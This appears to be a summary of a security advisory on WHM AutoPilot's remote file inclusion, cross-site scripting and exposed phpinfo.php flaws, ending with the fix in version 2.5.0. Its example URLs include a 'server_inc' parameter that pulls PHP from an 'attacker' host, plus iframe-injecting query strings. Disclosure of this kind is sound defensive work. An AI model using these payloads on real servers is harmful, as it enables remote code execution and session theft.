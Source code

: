 Based on the provided information, here's an analysis of the vulnerabilities in WHM AutoPilot, as reported by GulfTech Security:

**Vulnerabilities:**

1.  **File Include Vulnerability:**
    *   **Root Cause:**  The application uses the `$PHP_SELF` variable to determine which file to include, but this variable can be manipulated by adding extra path information. The application attempts to check for a specific file, like `test.php`, but because of the additional path information, this check is bypassed.  Also, the application is using user-supplied input via GET parameter `server_inc` in include statements.
    *   **Weakness:** Unsanitized user input used in file inclusion.
    *   **Impact:** Remote file inclusion, potentially allowing attackers to execute arbitrary PHP code on the server, leading to complete server compromise.
    *   **Attack Vector:** Manipulating the URL to include malicious remote PHP files via `server_inc` GET parameter, exploiting the flawed check on `$PHP_SELF`.
    *   **Attacker Capability:** No login required, making it accessible to any external attacker.
        *   Examples of vulnerable URLs:
            *   `<http://path/inc/header.php/step_one.php?server_inc=http://attacker/step_one_tables.php>`
            *   `<http://path/inc/step_one_tables.php?server_inc=http://attacker/js_functions.php>`
            *   `<http://path/inc/step_two_tables.php?server_inc=http://attacker/js_functions.php>`

2.  **Cross-Site Scripting (XSS) Vulnerability:**
    *   **Root Cause:**  The application directly outputs user-controlled input into HTML without proper sanitization. This occurs by calling scripts directly and specifying variable values via GET parameters.
    *   **Weakness:** Lack of input sanitization in multiple scripts.
    *   **Impact:** An attacker can inject malicious JavaScript code into the application's pages. This could lead to session hijacking, credential theft, and the execution of arbitrary code in the context of the user's browser.
    *   **Attack Vector:** By manipulating URL query parameters such as `site_title` and `http_images` to inject malicious code.
        *   Examples of vulnerable URLs:
            *   `<http://path/inc/header.php?site_title=%3C/title%3E%3Ciframe%3E>`
            *   `<http://path/admin/themes/blue/header.php?http_images=>'%3E%3Ciframe%3E`

3.  **Information Disclosure:**
    *   **Root Cause:** The application ships with a `phpinfo.php` file, which exposes sensitive server configuration details to the public.
    *   **Weakness:** The presence of a publicly accessible `phpinfo.php` file.
    *   **Impact:** Attackers can gather sensitive information about the server environment, making other attacks easier to execute.
    *   **Attack Vector:** Simply accessing the `/phpinfo.php` file through the web browser.
    *   **Attacker Capability:** Accessible to anyone on the internet.

**Mitigation:**

The provided information indicates that WHM AutoPilot released version 2.5.0 which addresses the above vulnerabilities, which includes:

*   Patching the File Include vulnerabilities by addressing the input sanitization issues and the way `$PHP_SELF` variable is being handled.
*   Sanitizing user inputs to prevent Cross-Site Scripting attacks.
*   Removing the `phpinfo.php` file from the application.

The advisory recommends that users upgrade to v2.5.0 and also delete the `phpinfo.php` file manually.